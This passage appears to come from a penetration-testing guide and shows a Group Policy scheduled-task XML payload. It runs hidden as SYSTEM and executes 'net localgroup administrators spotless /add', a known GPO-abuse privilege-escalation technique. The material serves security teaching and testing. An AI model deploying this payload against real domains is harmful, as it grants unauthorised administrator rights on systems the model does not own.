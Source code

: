 ```markup
                <Principals>
                    <Principal id="Author">
                        <UserId>NT AUTHORITY\System</UserId>
                        <RunLevel>HighestAvailable</RunLevel>
                        <LogonType>S4U</LogonType>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
                        <StopOnIdleEnd>true</StopOnIdleEnd>
                        <RestartOnIdle>false</RestartOnIdle>
                    </IdleSettings>
                    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
                    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
                    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                    <AllowHardTerminate>false</AllowHardTerminate>
                    <StartWhenAvailable>true</StartWhenAvailable>
                    <AllowStartOnDemand>false</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>true</Hidden>
                    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
                    <Priority>7</Priority>
                    <DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
                    <RestartOnFailure>
                        <Interval>PT15M</Interval>
                        <Count>3</Count>
                    </RestartOnFailure>
                </Settings>
                <Actions Context="Author">
                    <Exec>
                        <Command>cmd</Command>
                        <Arguments>/c net localgroup administrators spotless /add</Arguments>
                    </Exec>
                </Actions>
                <Triggers>
                    <TimeTrigger>
                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>
                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>
                        <Enabled>true</Enabled>
                    </TimeTrigger>
                </Triggers>
            </Task>
        </Properties>
    </ImmediateTaskV2>
</ScheduledTasks>
```
{% endcode %}

### Users and Groups
